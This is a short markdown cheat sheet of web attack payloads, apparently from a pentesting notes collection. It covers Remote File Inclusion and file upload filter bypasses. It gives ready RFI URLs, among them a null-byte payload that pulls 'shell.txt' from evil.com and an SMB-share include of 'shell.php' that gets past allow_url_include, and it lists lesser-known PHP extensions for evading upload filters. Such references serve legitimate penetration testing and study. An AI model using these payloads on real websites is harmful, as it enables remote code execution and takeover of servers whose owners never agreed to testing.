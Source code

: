 #### Remote File Inclusion

##### Set your local web server
```
python -m http.server <port>
```
##### Basic

Most of the filter bypasses from LFI section can be reused for RFI.
```
http://example.com/index.php?page=http://$your_ip:$port/your_file.txt
```

NOTE: You will see some request in your web server.
###### Null byte
```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```
NOTE: PHP version < 5.5 are vulnerable to this bypass
###### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`
#### File Upload

Credits:
[PayloadAllTheThings - File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#defaults-extensions)
##### Defaults extensions

PHP Server
```
.php
.php3
.php4
.php5
.php7
```

Less known PHP extensions
```
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
 ```
